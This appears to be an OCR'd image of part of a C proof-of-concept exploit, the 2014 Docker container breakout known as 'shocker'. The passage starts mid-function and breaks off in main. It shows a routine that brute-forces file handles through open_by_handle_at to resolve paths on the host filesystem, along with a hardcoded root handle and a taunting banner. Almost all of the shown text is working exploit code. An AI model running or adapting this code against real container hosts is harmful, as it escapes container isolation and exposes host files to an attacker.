 ```c
        return 1;
    }

    ++path;
    fprintf(stderr, "[*] Resolving '%s'\n", path);
    if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
        die("[-] open_by_handle_at");
    if ((dir = fdopendir(fd)) == NULL)
        die("[-] fdopendir");
    for (;;) {
        de = readdir(dir);
        if (!de)
        break;
        fprintf(stderr, "[*] Found %s\n", de->d_name);
        if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
            fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
            ino = de->d_ino;
            break;
        }
    }

    fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
    if (de) {
        for (uint32_t i = 0; i < 0xffffffff; ++i) {
            outh.handle_bytes = 8;
            outh.handle_type = 1;
            memcpy(outh.f_handle, &ino, sizeof(ino));
            memcpy(outh.f_handle + 4, &i, sizeof(i));
            if ((i % (1<<20)) == 0)
                fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
            if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                closedir(dir);
                close(fd);
                dump_handle(&outh);
                return find_handle(bfd, path, &outh, oh);
            }
        }
    }
    closedir(dir);
    close(fd);
    return 0;
}


int main(int argc,char* argv[] )
{
    char buf[0x1000];
    int fd1, fd2;
    struct my_file_handle h;
    struct my_file_handle root_h = {
        .handle_bytes = 8,
        .handle_type = 1,
        .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
    };
    
    fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
    
    read(0, buf, 1);
    
    // get a FS reference from something mounted in from outside
```
